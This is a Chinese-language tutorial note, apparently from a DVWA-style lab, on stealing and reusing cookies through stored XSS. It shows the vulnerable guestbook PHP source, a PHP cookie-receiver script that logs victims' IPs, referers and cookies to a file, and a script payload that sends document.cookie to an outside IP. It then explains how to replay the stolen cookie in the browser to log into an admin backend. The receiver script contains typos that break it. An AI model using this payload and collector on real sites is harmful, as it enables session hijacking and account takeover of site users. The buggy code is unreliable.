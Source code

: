 [TOC]

## 准备
重置数据库:

![]((22)利用Xss盗取并利用cookie__files/30a947ad-6018-4267-bd55-4f481bd02d50.png)

看存储型跨站的源码:
![]((22)利用Xss盗取并利用cookie__files/0cc7dbae-948f-4794-8d67-df23f8d3c7cb.png)

```
<?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);//用post方法接收你输入的内容
   $name    = trim($_POST['txtName']);//接收你输入的名字，这里用trim函数做的处理;trim函数:去掉字符串两边的空格
   
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);// mysql_real_escape_string这个函数实现转义！
   
   // Sanitize name input
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";//将文件内容插入到数据库里面；
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );//执行查询,把内容调出来
   
}

?> 

```
low级别存储型XSS:
![]((22)利用Xss盗取并利用cookie__files/1fc52d37-022f-4001-bf90-ede6b4449393.jpg)

![]((22)利用Xss盗取并利用cookie__files/dff65adb-5870-438d-aaa9-21ab78be6d8b.png)

![]((22)利用Xss盗取并利用cookie__files/a1748a70-c17d-4bd0-bafe-e411c0fc09f2.jpg)


![]((22)利用Xss盗取并利用cookie__files/5ff79584-9990-4a07-a0bd-ab329c92f0ab.jpg)
## XSS介绍
XSS两大功能:
1.盗取cookie;
2.挂马;
如果能够窃取 到管理员的cookie，就能够登录后台 ！
要有能接受cookie的地方,即:我偷到的cookie放哪儿


## 演示
![]((22)利用Xss盗取并利用cookie__files/5150267e-d5d6-4525-b9a2-f04f610dc0aa.jpg)

![]((22)利用Xss盗取并利用cookie__files/9cad7c6b-b324-4067-b59c-caae7ba4669c.jpg)

![]((22)利用Xss盗取并利用cookie__files/48542d0a-04e1-4ee9-873f-6c3737b7fed3.jpg)


```
<?php
$cookie = $_GET('cookie');//以GET方式获取cookie变量值
$ ip = getenv('REMOTE_ADDR');//远程主机的ip(就是说你从哪个地方偷过来的cookie,偷取cookie的网站的ip提取过来)
$time = date('Y-m-d g:i:s');//以年月日 ,时分秒的格式显示
$referer = getenv('HTTP_REFERER');//链接来源，referer是http协议头里面的一部分,可以获得被你偷取cookie的， 这个用户它在访问哪个页面的时候这个cookie被你窃取过来;能把页面的URL发过来;
$fp = fopen('cookie.txt','a');//打开cookie.txt，若不存在则创建它(这里将上面的信息写入这个文件，referer就是写入的内容)
fwrite($fp," IP ：".$IP."| Data and Time :".$Time." | Referer:" .$referer." | Cookie ：".$cookie."|||");//写入文件，双引号里面的内容原样输出;可能接受了很多cookie，接受文件的时候都是存放在 一行里面,这里在每一个cookie后面加了三个|，表示结束了
fclose($fp);

?>

```

### 验证:
服务器ip:
![]((22)利用Xss盗取并利用cookie__files/2a9d7c20-1e69-49a3-af97-958a3cecf0f1.jpg)

![]((22)利用Xss盗取并利用cookie__files/4f39b940-42f1-4585-bbe9-02ceac420c19.png)

![]((22)利用Xss盗取并利用cookie__files/7fcf7117-bd23-42ec-b58f-d2afd11e1509.jpg)

![]((22)利用Xss盗取并利用cookie__files/e4d27886-c924-4dd1-9a5b-affffe16ce37.png)
给网页传一个参数test;
传参之前:
![]((22)利用Xss盗取并利用cookie__files/aa233f58-135e-476b-bb69-d4367ba1ef1e.png)

在网站下面产生了cookie.txt;(好像我自己这里出现问题了？？)
![]((22)利用Xss盗取并利用cookie__files/73a1ce27-f60f-4260-a3ef-aaa317fb5b8e.jpg)

![]((22)利用Xss盗取并利用cookie__files/200be2f7-884f-4017-93b6-3fb45a541040.jpg)

### 怎么偷cookie:

```
<script>
document.write('<img src="http://182.168.80.142/getcookie ='+document.cookie+'" width =() heigt = () border=() />')
</script>
```
![]((22)利用Xss盗取并利用cookie__files/0fe57a48-1781-4964-af11-82827f35d7f9.jpg)
![]((22)利用Xss盗取并利用cookie__files/45854c54-2c37-474d-a4d8-985835bdc4e1.jpg)
原样输出之后再连接document.cookie;再连接宽度高度和border(这里设为0了)

为了增加输入的长度:
右击---》查看元素:

![]((22)利用Xss盗取并利用cookie__files/56abea28-b833-4383-9809-373a1a05dd76.png)

怎样利用cookie:
可以给firebox装一个插件_firebug;
![]((22)利用Xss盗取并利用cookie__files/db4fa169-24d4-44cb-a8d8-446f47c71c3b.png)

![]((22)利用Xss盗取并利用cookie__files/1e490a8c-4a14-42d3-960c-c1a4eef7b36d.png)

![]((22)利用Xss盗取并利用cookie__files/83576542-a6bc-485f-a218-f4c23e6e2344.png)



